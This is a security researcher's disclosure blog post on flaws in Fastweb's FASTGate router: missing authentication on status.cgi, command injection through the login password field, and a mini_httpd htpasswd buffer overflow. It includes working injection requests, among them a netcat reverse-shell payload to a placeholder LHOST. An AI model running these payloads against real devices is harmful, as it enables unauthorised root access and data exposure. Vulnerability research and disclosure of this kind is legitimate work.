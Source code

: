 ```yaml
---
layout: post
title:  "Hacking into a FASTGate router with a command injection (and a bunch of other vulnerabilities)"
subtitle: "Missing authentication, command injection in login page, buffer overflow on the web-server. Is this real life?"
date:   2018-10-13 22:14:42 +0100
author: "santoru"
visible: 1
comments: true
---
```

This blog post describes how I found a couple of vulnerabilities in the FASTGate modem/router provided by Fastweb, an Italian telecommunication company, to its clients. Thanks to these vulnerabilities I was able to bypass the authentication layer as well as execute arbitrary code via command injection and get a reverse shell back to the router.
All vulnerabilities have been disclosed to Fastweb and are fixed in newer versions of the firmware.

## FASTGate: the latest generation modem from Fastweb
Fastweb[^1] is an Italian telecommunications company that provides internet services. Since around march 2017 the company started to ship a new modem to its client: the FASTGate[^2].
Working as a penetration tester, and having the possibility to test it out, I started to analyze its web interface in order to find some vulnerabilities that could give me some unintended access to it. Goal of the night: popping up a shell!\ 
First step was to set up Burp Suite as a proxy and navigate a bit through the webpages to save some request and response.
The first screen I got was the login panel, as shown in figure 1.

{% include image.html url="img/fastgate/login.png" description="Figure 1 - Login panel" %}

### Broken authentication layer
I logged in and started to browse some pages and execute actions in order to understand how requests were handled. The first thing I noticed was that the login request did not return any cookie nor any token to the client and this made me suspicious: did they implement some authentication at all? \
They didn't.

What I noticed was that the web application was simply sending AJAX requests to a cgi binary, called `status.cgi`, using a parameter called `nvget` to specify the action.
For example, the following GET request was enough to list all devices connected to the router, even in the past, with their assigned IP, their MAC address and their hostname:
```
GET http://192.168.1.254/status.cgi?nvget=pc_list
```
Just to have a nice output to show, I developed a python script that parses the json response and display it:

{% include image.html url="img/fastgate/userenum.png" description="Figure 2 - Devices enumeration" %}

### Unauthenticated command injection in login page
With this trivial _authentication bypass_ via the `status.cgi` binary, I went back to the login request and started to manually fuzz both the username and password fields. After few tests I noticed that the response of the server, after putting a single quotation mark into the password field, printed an interesting line:
```
HTTP/1.0 200 OK
sh: syntax error: unterminated quoted string
Content-type: text/html
```

Uhm.. what? Am I dreaming? Is my controlled input really used to execute a shell command with no sanitization at all?
I wanted to see if I could actually run some commands, so I tried executing `ping` which is usually a command installed on any distribution:
```
GET /status.cgi?_=1512070412178&cmd=3&nvget=login_confirm&password='$(ping)'&remember_me=1&username=admin HTTP/1.1
```
The response was the confirmation I was looking for:
{% include image.html url="img/fastgate/ping.png" description="Figure 3 - Ping command" %}


As shown, I can successfully send arbitrary command by adding to the password input the text ```'$(`command`)'```.
The impact of this vulnerability is full code execution on the router, but it's not clear what privileges I'm running with, having a shell to quickly interact with the router would be ideal!

#### Getting the reverse shell
The command execution is cool, but can we go further? Can we get a real shell into the system? Of course we can! After some enumeration done via the command injection, I noticed that the router shipped several `netcat` binaries, one of which was luckily compiled with support to the `-e` parameter that, quoting the man page, `execute external program after accepting a connection or making connection`.
Let's use this `nc` binary to run a reverse shell:
```
GET /status.cgi?cmd=3&nvget=login_confirm&password=AA'$(`/statusapi/usr/bin/nc%20LHOST%20LPORT%20-e%20/bin/bash`)AAremember_me=1&username=admin HTTP/1.1
```
This was enough to get a full reverse shell into the system, and guess what? The process is running as `root` so we get full access to the device. 

{% include image.html url="img/fastgate/poc.png" description="Figure 4 - Exploit executed to get a shell" %}


## Conclusions
For documentation purpose, the vulnerable software version that I tested is the `v1.0.1b`, with firmware version `0.00.47_FW_200_Askey2017-05-17 17:31:59`.\
It must be noted that in order to exploit the vulnerability the attacker must be authenticated to the Wi-Fi network, as the admin interface is exposed on the internal network.

{% include image.html url="img/fastgate/version.png" description="Figure 5 - Vulnerable version" %}


The communication with Fastweb didn't go very smooth. I tried to contact them multiple time to report this vulnerability but after an initial ack they stopped any communication with me.
Few weeks after my emails, they released a new firmware version that addressed most of the vulnerabilities:
- Login request now returns a session token that it is used to authenticate all requests to `status.cgi`, so it seems that they fixed the trivial "bypass".
- They initially added a CSRF protection by setting a cookie called `XSRF-TOKEN`: when sending a request, the web application send both the cookie and a `X-XSRF-TOKEN` header with the same value. There's no actual validation on the token value, no matter what the user decide to sent via these two headers, if the cookie matches the token value, the server will accept it.
- The command injection was still present in a bunch of updates, but was eventually fixed.

At the time, they didn't have any responsible disclosure program nor any specific security contact, but they did create one shortly after my first email. The Responsible Disclosure[^3] webpage they created has an Hall-of-Fame, but I was not mentioned there.


## Bonus: mini\_httpd v1.27 / thttpd v2.27 buffer overflow
One of the first things I noticed reading the response from the router was the `Server` header: `mini_httpd/1.27 07Mar2017`.\
According to the developer's website of `mini_httpd`[^4], it seemed to be the latest available version at the time and I couldn't find any public information about known vulnerabilities on it.

Since the source code was available, I started to do some analysis and I noticed a trivial buffer overflow in the `htpasswd.c` file, which turned out to be a custom and simplified version of the original _htpasswd_ utility developed for the Apache HTTP Server and used to`'create and update the flat-files used to store usernames and password for basic authentication of HTTP users`.\
The simplified version developed by ACME Laboratories had a buffer overflow vulnerability since the username parameter provided through the command line interface was copied into a buffer without any bound check. The vulnerability could be exploited to execute malicious payloads if the utility can be used remotely to set up, for example, an account: In this case an attacker can craft an exploit and gain code execution into the vulnerable system.\
After disclosing the vulnerability to the maintainer of the web-server an update that fixed the vulnerability was released through the developer's website.

### Disclosure timeline of the Buffer Overflow
- 01 December 2017 - Contacted the developer to ask how to report security findings
- 12 December 2017 - Sent the details of the vulnerability to the developer
- 13 December 2017 - Developer acknowledged the vulnerability
- 13 December 2017 - CVE assigned: _CVE-2017-17663_
- 04 February 2018 - Update released for mini\_httpd & thttpd and [advisory published](https://acme.com/updates/archive/199.html) for the vulnerability.

---

## Footnotes
[^1]: [Fastweb S.p.A.](https://www.fastweb.it/)
[^2]: [FASTGate](https://www.fastweb.it/myfastweb/assistenza/guide/FASTGate/)
[^3]: [Fastweb Responsible Disclosure](https://www.fastweb.it/corporate/responsible-disclosure/)
[^4]: [mini_httpd - small HTTP server](https://acme.com/software/mini_httpd/)